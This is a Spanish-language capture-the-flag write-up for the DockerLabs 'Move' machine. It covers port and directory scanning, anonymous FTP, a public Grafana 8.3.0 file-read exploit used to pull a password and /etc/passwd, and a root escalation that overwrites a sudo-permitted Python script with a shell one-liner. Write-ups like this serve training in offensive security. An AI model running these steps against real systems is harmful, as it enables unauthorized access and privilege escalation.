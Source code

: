 # 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** Práctica de análisis de servicios expuestos, reconocimiento de rutas sensibles y escalada de privilegios.
* **Objetivo:** Obtener acceso root a través de la explotación de una configuración sudo insegura.

---

![Logo](Imágenes/2025-05-15_16-55.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Posteriormente lo descomprimimos con el siguiente comando:

```bash
unzip move.zip
```

Luego desplegamos la máquina vulnerable con:

```bash
sudo bash auto_deploy.sh move.tar
```

![Desplegar](Imágenes/Capturas.png)

Verificamos que el contenedor esté activo mediante un ping:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos abiertos y lanzamos un escaneo más detallado:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```

![Nmap detallado](Imágenes/Capturas_3.png)

### Resultados Destacados:

* **Puerto 80**: Servicio HTTP (servidor web Apache).
* **Puerto 22**: Servicio SSH activo.
* **Puerto 21**: Servicio FTP con acceso anónimo habilitado.

---

## 🌐 Análisis Web

Accedimos al sitio web [http://172.17.0.3/](http://172.17.0.3/) y se muestra la página por defecto de Apache2.

![Pagina](Imágenes/Capturas_4.png)

Realizamos un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](Imágenes/Capturas_5.png)

Se descubrió el archivo **maintenance.html**, el cual revela una ruta interna:

```
/tmp/pass.txt
```

![Fuzzing](Imágenes/Capturas_6.png)

---

## 📁 Acceso al Servicio FTP

Accedemos al servicio FTP con el usuario `anonymous`. Al pedir contraseña, simplemente presionamos **Enter**.

![Fuzzing](Imágenes/Capturas_7.png)

Ejecutamos `ls -la` y navegamos hasta el directorio `mantenimiento`, donde encontramos un archivo llamado `database.kdbx`. Lo descargamos con:

```bash
get database.kdbx
```

![Fuzzing](Imágenes/Capturas_8.png)

---

## 📡 Detección de Servicios Adicionales

Explorando más puertos, descubrimos que el **puerto 3000** está abierto.

![Open](Imágenes/Capturas_9.png)

Accedemos a **[http://172.17.0.3:3000/login](http://172.17.0.3:3000/login)** y encontramos una instancia de **Grafana**. En la parte inferior izquierda se muestra la versión:

```
Grafana v8.3.0 (914fcedb7)
```

![Registro](Imágenes/Capturas_10.png)

---

## 💥 Explotación de Grafana

Buscamos vulnerabilidades con `searchsploit`:

```bash
searchsploit Grafana 8.3.0
```

Identificamos el exploit:

```
Grafana 8.3.0 - LFI/RCE (Python) → multiple/webapps/50581.py
```

Lo descargamos y ejecutamos:

```bash
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.3:3000
```

Usamos el exploit para leer `/tmp/pass.txt`, y obtenemos una contraseña:

```
t9sH76gpQ82UFeZ3GXZS
```

![contraseña](Imágenes/Capturas_11.png)

---

## 👤 Enumeración de Usuarios

Ejecutamos el comando `cat /etc/passwd` desde el exploit y encontramos un posible usuario válido:

```
freddy
```

![Usuarios](Imágenes/Capturas_12.png)

---

## 🔐 Autenticación Válida y Escalada de Privilegios

Probamos las credenciales encontradas (`freddy:t9sH76gpQ82UFeZ3GXZS`) en el servicio FTP y accedemos exitosamente.

Dentro del directorio `/opt` encontramos el archivo `maintenance.py`, el cual descargamos con:

```bash
get maintenance.py
```

El archivo solo contenía:

```python
print("Server under beta testing")
```
Procedo a usar SSH si puedo hacer alguna escalada.

![py](Imágenes/Capturas_13.png)

## 🔐 Explotacion del servicio SSH

Ya conectados como el usuario `freddy`, ejecutamos:

```bash
sudo -l
```

Se nos muestra la siguiente política de sudo:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Esto indica que podemos ejecutar **ese script como root sin contraseña**.

---

## 🚀 Escalada Final a Root

Eliminamos el script original y creamos uno malicioso:

```bash
rm /opt/maintenance.py
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py
chmod +x /opt/maintenance.py
sudo /usr/bin/python3 /opt/maintenance.py
```

Esto nos otorga una **shell con privilegios root**.

![root](Imágenes/Capturas_14.png)

---

## 📝 Nota Final

* Es posible que existan otras formas de comprometer esta máquina, pero esta fue la ruta explotada a partir de la información descubierta.
  
* En el sercio de SSH me ubique en el directorio /opt/

* Todo el contenido encotrado y los scrpts usados se encuentran en este directorio.
  
---
